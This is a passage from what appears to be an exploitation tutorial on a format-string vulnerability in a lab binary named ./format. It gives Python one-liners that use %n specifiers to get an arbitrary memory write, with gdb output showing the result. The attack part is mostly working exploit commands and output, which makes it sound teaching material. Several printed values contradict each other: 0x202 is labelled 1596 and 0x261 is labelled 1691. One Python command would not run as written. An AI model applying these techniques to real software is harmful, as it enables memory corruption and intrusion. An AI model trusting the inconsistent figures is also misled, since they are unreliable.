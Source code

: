 ::: {.noteclassic}
Remove any core files you may have generated before testing your
program:

``` {.code}
rm -f core
```
:::

We can replace `%08x` with `%n` this should lead to segmentation fault.

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"AAAAAAAA" * 199 + b"%175$08n")')"
Segmentation fault (core dumped)
$ gdb ./format -c core
...
Core was generated by `./format BCDEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) bt
#0  0xf7e580a2 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
#1  0xf7e5deff in printf () from /lib/i386-linux-gnu/libc.so.6
#2  0x08048468 in main (argc=2, argv=0xffffd2f4) at format.c:18
(gdb) x/i $eip
=> 0xf7e580a2 <vfprintf+17906>:    mov    %edx,(%eax)
(gdb) info registers $edx $eax
edx            0x202    1596
eax            0x44434241   1145258561
(gdb) quit
```

Bingo. We have memory write. The vulnerable code tried to write at the
address `0x44434241` ("ABCD" little endian) the value 1596. The value
1596 is the amount of data wrote so far by `printf`
(`“ABCD” + 199 * “AAAAAAAA”`).

Right now, our input string has 1605 bytes (1604 with a `\n` at the
end). But we can further compress it, thus making the value that we
write independent of the length of the input.

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write("ABCD" + "A" * 1588 + "%99x" + "%126$08n")')"
Segmentation fault (core dumped)
$ gdb ./format -c core
(gdb) info registers $edx $eax
edx            0x261    1691
eax            0x44434241   1145258561
(gdb) quit
```

Here we managed to write 1691 (4+1588+99). Note we should keep the
number of bytes before the format string the same. Which means that if
we want to print with a padding of 100 (three digits) we should remove
one `A`. You can try this by yourself.
